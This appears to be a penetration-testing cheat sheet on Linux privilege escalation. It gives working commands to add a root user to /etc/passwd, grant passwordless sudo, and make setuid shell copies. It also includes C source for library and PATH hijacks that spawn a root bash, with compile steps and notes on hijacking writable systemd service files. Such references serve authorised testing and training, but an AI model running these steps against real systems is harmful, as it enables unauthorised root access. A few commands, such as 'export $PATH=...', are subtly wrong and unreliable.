 # Privileges Exploitation

## Writable /etc/passwd

Create a new user entry in root group and append it to the /etc/passwd file

```bash
echo "<username>:$(openssl passwd <password>):0:0:/root:/root:/bin/bash" >> /etc/passwd
```

## Writable /etc/sudoers

Allow current user to invoke any program with sudo without needing the password

```bash
echo "$(whoami) ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
echo "$(whoami) ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers.d/README
```

## Elevated shell with sticky bit

By exploiting an application running as root (for instance a database or a script) it is possible to obtain an elevated shell by executing the following commands within the elevated application:

```bash
cp /bin/dash /tmp/<file>
chmod u+s /tmp/<file>
#execute the elevated shell
/tmp/<file> -p
```

## SUID exploit

### Built-in exploitable binaries

{% embed url="https://gtfobins.github.io/" %}

### Shared library hijack

#### check for missing .so files

```bash
strace <binary> 2>&1 | grep -i -E "open|access|no such file"
ldd <file> | grep "not found"
```

#### Shared library code

Put the file in the path of the missing library or replace it if you can write in the folder.

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject(){
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

#### Compile as

```bash
gcc -shared -o <path to library> -fPIC <file>.c
```

### Relative path hijack

#### Find calls to system binaries in executable file

Search for calls to executables with relative paths, for instance instead of `/bin/cp` look for `cp`

```bash
strings <file>    #static calls
ltrace <file>     #library calls during execution
```

#### boilerplate code

```bash
#include <stdio.h>
#include <stdlib.h>

int main(){
setresuid(0,0,0);
system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
return 0;
}
```

#### compile and execute

Add the /tmp folder to the $PATH variable and compile the malicious program with the same name as the relative path executable invoked in the vulnerable executable. In this way the generated malicious program will be detected and executed before the system one.

```bash
export $PATH=/tmp:$PATH
gcc -o /tmp/<name>.so <name>.c -s --static
/<path to vuln binary>
```

## Writable service files

Can be found by searching for .service files with write permission or by checking write permissions with sudo -l

### File template

the Exec\* instructions can be hijacked to execute arbitrary scripts

```
[Unit]
Description=The NGINX HTTP and reverse proxy server
After=syslog.target network.target remote-fs.target nss-lookup.target

[Service]
Type=forking
PIDFile=/run/nginx.pid
ExecStartPre=/usr/sbin/nginx -t
ExecStart=/usr/sbin/nginx
ExecReload=/bin/kill -s HUP $MAINPID
ExecStop=/bin/kill -s QUIT $MAINPID
PrivateTmp=true

[Install]
WantedBy=multi-user.target
```

The basic structure of a service file is the following:

```
[Unit]
Description=Foo

[Service]
ExecStart=/usr/sbin/foo-daemon

[Install]
WantedBy=multi-user.target
```

### Manage services

```
which <deamon>                    get the path to the running deamon
sudo systemctl start <deamon>     start deamon        
sudo systemctl stop <deamon>      stop deamon
sudo systemctl restart <deamon>   restart deamon
systemctl status <deamon>         get status info
sudo systemctl enable <deamon>    launch deamon on startup
journalctl -u <deamon>            access logs for given deamon
```

